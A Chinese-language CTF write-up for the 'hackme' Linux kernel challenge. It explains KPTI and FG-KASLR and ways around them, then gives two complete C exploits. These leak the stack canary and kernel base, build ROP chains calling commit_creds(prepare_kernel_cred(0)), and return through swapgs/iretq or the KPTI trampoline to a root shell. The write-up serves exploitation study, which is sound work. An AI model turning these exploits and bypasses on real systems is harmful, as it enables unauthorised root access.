

# hackme

漏洞很简单，就是纯纯的一个溢出到栈上，这边主要学习应对各种保护的方法

## 各种保护

### KPTI

在没有开启 `KPTI`保护的内核中，每当执行用户空间代码时，`Linux`会在其分页表中保留整个内核内存的映射，即用户地址空间和内核地址空间将使用同一个页全局目录表，并保护其访问。

`KPTI(Kernel page-table isolation)`，即内核页表隔离。通过把进程页表按照用户空间和内核空间隔离成两块来防止内核页表泄露。可以在`-append`选项下添加`kpti=1`或`nopti`来启用或禁用它。

而在开启了 `KPTI`保护的内核里，用户态页表包含了用户空间，其只含有一个用于处理中断的`kernel mapping PGD`。当用户空间访问内核时，会先陷入中断，进入处理中断的 `trampoline mapping`，该中断处理程序会建立一个正常的的`kernel mapping`的映射。

而为了实现 `PGD`的切换，内核增加了一组宏用来在进程进行用户态、内核态切换时进行页表切换。一个进程的内核态`PGD(4k)`和用户态 `PGD(4K)`一起形成了一个`8K`的 `PGD`。当中断发生时，内核使用切换 `CR3`寄存器来实现从用户态地址空间切换到内核态的地址空间。`CR3`的 `bit47-bit11`为 `PGD`的物理地址，最低为 `bit12`用于进行 `PGD`切换；`bit12=0`为内核态`PGD`，`bit12=1`为用户态 `PGD`。

`CR3`的 `bit0-bit11`为 `asid(Address Space Identifier)`，`asid`也分为 内核态和用户态，最高位 `bit11`来进行 `asid`切换；`bit11=0`为内核态 `asid`，`bit11=1`为用户态 `asid`。

> 那么对于如何应对该保护，就有两种方法
>
> 1. 使用 gadget 修改掉 CR3 寄存器
> 2. 使用 signal(SIGSEGV,shell) 捕获常规方式返回导致的SIGSEGV异常信号来get root shell。

### FG-KASLR

KASLR其实就是内核态的地址随机化，类似用户态的做法，bypass可以通过确定基地址然后加上固定偏移来解决。但是观察`/proc/kallsyms`的内容发现一些符号其实是完全自己在随机，而不是拥有一个固定的偏移，这就引出了Linux Kernel的一个机制Function Granular KASLR，也就是 FG-KASLR 简单来说就是内核在加载的时候会以函数级别重新排布内核代码，也就是说每个函数的地址都会乱掉

> 如何应对该保护呢
>
> FG-KASLR并不完善，一些内核区域并不会随机化：
>
> 1. swapgs_restore_regs_and_return_to_usermode和__x86_retpoline_r15函数不受到FG-KASLR影响，这能帮助找到一些gadget。
> 2. 内核符号表ksymtab不受影响，这里存储了一些偏移可以用于计算prepare_kernel_cred和commit_creds的地址。

> 另外，这是网上的总结：
>
> 1. 如果内核没有保护，就直接ret2usr。
> 2. 如果开了SMEP，就用ROP
> 3. 溢出或者位置被限制在栈上，就用pivot gadget进行栈迁移。
> 4. KPTI利用KPTI trampoline或者signal handler
> 5. SMAP会导致stack pivot很难利用
> 6. 如果没有KASLR，直接泄露地址就能用，开了的话就用基地址 + 偏移。
> 7. 如果有FG-KASLR，记得利用ksymtab和不受影响的区域。

## 信息搜集

可以在 init 脚本中将 uid 改成 0 切成内核态，之后查看 kallsyms 

```shell
cat /proc/kallsyms | grep "startup_64"
```



在开启 FG-KASLR 后在使用这个命令，观察后几位，每次重启内核都会发生变化。。

```shell
cat /proc/kallsyms | grep "commit_creds"
```

## exp1

除 Kaslr 外保护全开的 exp

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <signal.h>

void get_shell();


size_t vmlinux_base = 0xffffffff81000000;
size_t user_cs, user_ss, user_rflags, user_sp;

size_t commit_creds = 0x4c6410;
size_t prepare_kernel_cred = 0x4c67f0;
size_t pop_rdi_ret = 0x6370;
size_t pop_rdx_ret = 0x7616;
size_t pop_rcx_ret = 0x5f4bbc;
size_t pop_rbp_ret = 0x424;
size_t mov_rdi_rax_jne_pop2_ret = 0x66fea3;
size_t cmp_rdx_jne_pop2_ret = 0x964cc4;
size_t swapgs_pop_rbp_ret = 0xa55f;
size_t iretq_ret = 0xc0d9;


void info(char *s , size_t address ){
    if (address) printf("\033[32m\033[1m[Info] %s : \033[0m%#lx\n", s, address);
    else printf("\033[32m\033[1m[Info] %s \033[0m\n", s);
}

void error(char *s){
    printf("\033[31m\033[1m[Error] %s\n\033[0m" , s);
    exit(1);
}

void shell(){
    if (getuid()){
        error("Failed to get root");
        exit(0);
    }
    info("Get root!",0);
    execl("/bin/sh","sh",NULL);
}

void save_status(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    info("status saved!",0);
}

void show( size_t buf[] , int len){
    for (int i =0;i<len;i++){
        printf("0x%-4x -> 0x%lx\n" , i,buf[i]);
    }
}

void set_offset(){
    commit_creds += vmlinux_base;
    prepare_kernel_cred += vmlinux_base;

    pop_rdi_ret += vmlinux_base;
    pop_rdx_ret += vmlinux_base;
    pop_rcx_ret += vmlinux_base;

    mov_rdi_rax_jne_pop2_ret += vmlinux_base;

    cmp_rdx_jne_pop2_ret += vmlinux_base;
    swapgs_pop_rbp_ret += vmlinux_base;
    iretq_ret += vmlinux_base;

    info("commit_creds" , commit_creds);
    info("prepare_kernel_cred" , prepare_kernel_cred);
}


int main(){
    
    size_t buf[0x100] = {0};
    size_t rop[0x600] = {0};
    size_t canary ; 
    int length =  (0x80 + 0x18 + 0x10);
    int i = 0x10;

    save_status();
    signal(SIGSEGV, shell);

    int fd = open("/dev/hackme" , 2);


    read(fd , buf ,length);

    show(buf , length/8);
    canary = buf[i];


    set_offset();

    rop[i++] = canary;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = 0;
    // rop[i++] = (size_t)get_shell;

    //commit_creads(prepare_kernel_cred(0));
    rop[i++] = pop_rdi_ret;
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred;
    rop[i++] = pop_rdx_ret;
    rop[i++] = 8;
    rop[i++] = cmp_rdx_jne_pop2_ret;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = mov_rdi_rax_jne_pop2_ret;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = commit_creds;

    rop[i++] = swapgs_pop_rbp_ret;
    rop[i++] = 0;
    rop[i++] = iretq_ret;
    rop[i++] = (size_t )shell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(fd , rop , 0x80 + 0x100 );

}
```

## exp2

保护全开之后的exp

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

#define DEV		"/dev/hackme"
#define PLEN	40

/* Global file descriptor */
int g_fd = 0;

/* cookie and address to build payload */
unsigned long canary, imagebase, ksymtab_commit_creds, commit_creds, ksymtab_prepare_kernel_cred, prepare_kernel_cred, root_cred, kpti_trampoline;

/* userspace registers to restore when recovering from kernel space */
unsigned long us_cs, us_rflags, us_rsp, us_ss;

//Gadgets

/* The following two gadgets are used to read arbitrary address */
unsigned long pop_rax_ret;	//pop rax; ret;
unsigned long read_rax_pop_rbp_ret; //mov eax, dword ptr[rax + 0x10]; pop rbp; ret; 

/* This gadget is used to pass parameters */
unsigned long pop_rdi_rbp_ret; //pop rdi; pop rbp; ret;

/* Temporarily used variable */
unsigned long tmp;

void save_userspace ()
{
	__asm__(
		".intel_syntax noprefix;"
		"mov us_cs, cs;"
		"mov us_rsp, rsp;"
		"mov us_ss, ss;"
		"pushf;"
		"pop us_rflags;"
		".att_syntax;"	
	);
}

void opendev ()
{
	g_fd = open (DEV, O_RDWR);
}

void leakinfo ()
{
	unsigned long payload[PLEN] = {0};
	ssize_t cnt = read (g_fd, payload, sizeof(payload));

	printf("[DEBUG] read %zd bytes\n", cnt);

	//show the information we leaked from kernel
	for (int i = 0; i < PLEN; i ++)
	{
		printf ("[%02d] 0x%lx\n", i, payload[i]);
	}

	canary = payload[16];
	imagebase = payload[38] & 0xFFFFFFFFFFFF0000;
	ksymtab_commit_creds = imagebase + 0xf87d90;
	ksymtab_prepare_kernel_cred = imagebase + 0xf8d4fc;
	kpti_trampoline = imagebase + 0x200f10 + 0x16;

	pop_rax_ret = imagebase + 0x4d11;
	read_rax_pop_rbp_ret = imagebase + 0x4aae;
	pop_rdi_rbp_ret = imagebase + 0x38a0;

	printf ("[DEBUG] \ncanary:0x%lx\nimagebase:0x%lx\nksysmtab_commit_creds:0x%lx\nksymtab_prepare_kernel_cred:0x%lx\nkpti_trampline:0x%lx\npop_rax_ret:0x%lx\nread_rax_pop_rbp_ret:0x%lx\npop_rdi_rbp_ret:0x%lx\n", canary, imagebase, ksymtab_commit_creds, ksymtab_prepare_kernel_cred, kpti_trampoline, pop_rax_ret, read_rax_pop_rbp_ret, pop_rdi_rbp_ret);
}

void spawn_root_shell ()
{
	if (getuid () == 0)
	{
		printf ("[DEBUG] Congratulations! we'll get a root shell\n");
		system ("/bin/sh");
	}
	else
	{
		printf ("[Error] failed to do privilege escalation.\n");
	}
}

void run_commit_creds ()
{
	unsigned long payload[PLEN] = {'\x00'};
	payload[16] = canary;
	payload[20] = pop_rdi_rbp_ret; //return address
	payload[21] = root_cred; // rdi = 0
	payload[22] = 0x0; // faked rbp
	payload[23] = commit_creds; // call commit_creds (root_cred)
	payload[24] = kpti_trampoline;
	payload[25] = 0;
	payload[26] = 0;
	payload[27] = (unsigned long)spawn_root_shell;
	payload[28] = us_cs;
	payload[29] = us_rflags;
	payload[30] = us_rsp;
	payload[31] = us_ss;

	printf ("[DEBUG] try to get address of prepare_kernel_cred()\n");
	write (g_fd, payload, sizeof (payload));
}

void get_cred()
{
	__asm__(
		".intel_syntax noprefix;"
		"mov root_cred, rax;"
		".att_syntax;"
	);

	printf("[DEBUG] root cred is : 0x%lx\n", root_cred);

	run_commit_creds ();
}

/* call commit_creds (prepare_kernel_cred (0)) to get root privilege. */
void run_prepare_kernel_cred ()
{
	unsigned long payload[PLEN] = {'\x00'};
	payload[16] = canary;
	payload[20] = pop_rdi_rbp_ret; //return address
	payload[21] = 0x0; // rdi = 0
	payload[22] = 0x0; // faked rbp
	payload[23] = prepare_kernel_cred; // call prepare_kernel_cred(0), return value is rax
	payload[24] = kpti_trampoline;
	payload[25] = 0;
	payload[26] = 0;
	payload[27] = (unsigned long)get_cred;
	payload[28] = us_cs;
	payload[29] = us_rflags;
	payload[30] = us_rsp;
	payload[31] = us_ss;

	printf ("[DEBUG] try to get address of prepare_kernel_cred()\n");
	write (g_fd, payload, sizeof (payload));
}

void _get_prepare_kernel_cred ()
{
	__asm__(
		".intel_syntax noprefix;"
		"mov tmp, rax;"
		".att_syntax;"
	);

	prepare_kernel_cred = ksymtab_prepare_kernel_cred + (int) tmp;
	printf("[DEBUG] prepare_kernel_cred address is : 0x%lx\n, tmp is 0x%lx", prepare_kernel_cred, tmp);

	run_prepare_kernel_cred ();
}

void get_prepare_kernel_cred ()
{
	unsigned long payload[PLEN] = {'\x00'};
	payload[16] = canary;
	payload[20] = pop_rax_ret; //return address
	payload[21] = ksymtab_prepare_kernel_cred - 0x10;
	payload[22] = read_rax_pop_rbp_ret;
	payload[23] = 0; //faked rbp
	payload[24] = kpti_trampoline;
	payload[25] = 0;
	payload[26] = 0;
	payload[27] = (unsigned long)_get_prepare_kernel_cred; //IP, userspace function to get commit_creds() from eax
	payload[28] = us_cs;
	payload[29] = us_rflags;
	payload[30] = us_rsp;
	payload[31] = us_ss;

	printf ("[DEBUG] try to get address of prepare_kernel_cred()\n");
	write (g_fd, payload, sizeof (payload));
}

void _get_commit_creds ()
{
	__asm__(
		".intel_syntax noprefix;"
		"mov tmp, rax;"
		".att_syntax;"
	);

	commit_creds = ksymtab_commit_creds + (int) tmp;
	printf("[DEBUG] commit_creds() address is : 0x%lx, tmp is:%lx\n", commit_creds, tmp);

	get_prepare_kernel_cred ();
}

void get_commit_creds ()
{
	unsigned long payload[PLEN] = {'\x00'};
	payload[16] = canary;
	payload[20] = pop_rax_ret; //return address, pop rax; ret
	payload[21] = ksymtab_commit_creds - 0x10;	//rax = ksymtab_commit_creds - 0x10
	payload[22] = read_rax_pop_rbp_ret; // mov eax, dword ptr[rax + 0x10]; pop rbp; ret;
	payload[23] = 0; //faked rbp
	payload[24] = kpti_trampoline;
	payload[25] = 0;
	payload[26] = 0;
	payload[27] = (unsigned long)_get_commit_creds; //IP, userspace function to get commit_creds() from eax
	payload[28] = us_cs;
	payload[29] = us_rflags;
	payload[30] = us_rsp;
	payload[31] = us_ss;

	printf ("[DEBUG] try to get address of commit_creds()\n");
	write (g_fd, payload, sizeof (payload));
}

void attack ()
{
	get_commit_creds ();
}

int main ()
{
	save_userspace ();

	opendev ();
	if (g_fd <= 0)
	{
		printf ("[ERROR] failed to open device %s\n", DEV);

		return -1;
	}

	leakinfo ();
	
	attack ();
	close (g_fd);

	return 0;
}
```

